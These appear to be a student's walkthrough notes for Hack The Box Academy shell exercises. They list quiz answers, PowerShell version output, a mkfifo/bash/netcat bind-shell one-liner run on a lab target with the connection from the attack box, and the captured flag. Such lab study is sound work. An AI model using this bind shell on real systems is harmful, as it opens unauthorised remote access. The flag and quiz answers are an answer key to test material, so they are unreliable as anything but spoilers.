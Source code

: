 # Anatomy of a Shell

- Which two shell languages did we experiment with in this section? (Format: shellname&shellname)
**`bash&powershell`**

- In Pwnbox issue the $PSversiontable variable using PowerShell. Submit the edition of PowerShell that is running as the answer.
```powershell
PS [10.10.14.124] /home/htb-ac-539570 > echo $PSversiontable

Name                           Value
----                           -----
PSVersion                      7.5.0
PSEdition                      Core
GitCommitId                    7.5.0
OS                             Parrot Security 6.3 (lorikeet)
Platform                       Unix
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0…}
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1
WSManStackVersion              3.0
```

# Bind Shells

- Des is able to issue the command nc -lvnp 443 on a Linux target. What port will she need to connect to from her attack box to successfully establish a shell session? ANS: 443
- SSH to the target, create a bind shell, then use netcat to connect to the target using the bind shell you set up. When you have completed the exercise, submit the contents of the flag.txt file located at /customscripts.

```zsh
❯ ssh htb-student@10.129.106.191
```

On target:
```bash
htb-student@ubuntu:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 0.0.0.0 1234 > /tmp/f
```

On VM
```zsh
exec bash --login
nc -nv 10.129.81.57 1234
(UNKNOWN) [10.129.81.57] 1234 (?) open
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb-student@ubuntu:~$ 
htb-student@ubuntu:~$ cat /customscripts/flag.txt 
B1nD_Shells_r_cool

```

